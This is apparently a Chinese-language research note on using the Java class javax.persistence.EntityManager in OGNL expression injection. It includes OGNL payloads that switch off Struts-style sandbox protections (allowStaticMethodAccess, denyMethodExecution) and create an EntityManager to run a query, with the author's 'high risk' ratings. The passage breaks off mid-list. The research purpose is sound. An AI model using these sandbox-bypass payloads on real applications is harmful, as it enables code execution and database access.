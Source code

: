 
### 20 = "javax.persistence.EntityManager"
* 这是一个接口，不能实例化
* 应该是操控数据库的
* (Spring 中) 通过 EntityManagerFactory 获取 EntityManager 实例。每个线程拥有自己的 EntityManager 实例
* src-code  
  [Jump to EntityManager](./assets/EntityManager.java)  
  [Jump to EntityManagerFactory](./assets/EntityManagerFactory.java)  
  [Jump to javax.persistence.Persistence](./assets/Persistence.java)
* [参考 CSDN](https://blog.csdn.net/lvxiangan/article/details/88947430)
* [参考 cnblogs](https://www.cnblogs.com/yy3b2007com/p/9195903.html)
* payload
  ```js
  // 使用匿名内部类
  // new 了一个实现接口的匿名类，需要在匿名类内部 (花括号内) 实现接口的方法
  // 所以下面这个 payload 感觉有问题
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new javax.persistence.EntityManager(){public void clear(){}}.clear()}

  // 尝试先创建 EntityManagerFactory
  // 然后不带安全权限语句，把一些方法都尝试了
  // 都是 Normal
  %{#em=@javax.persistence.Persistence@createEntityManagerFactory("test").createEntityManager(),
    #em.createQuery("select * from Student")}

  // 带上安全权限语句
  // 感觉在靶机 (含数据库) 上可能可以形成注入
  // high risk
  ```
  第一句
  ![](./imgs/chop-20-001.png)  
  第二句，不带权限语句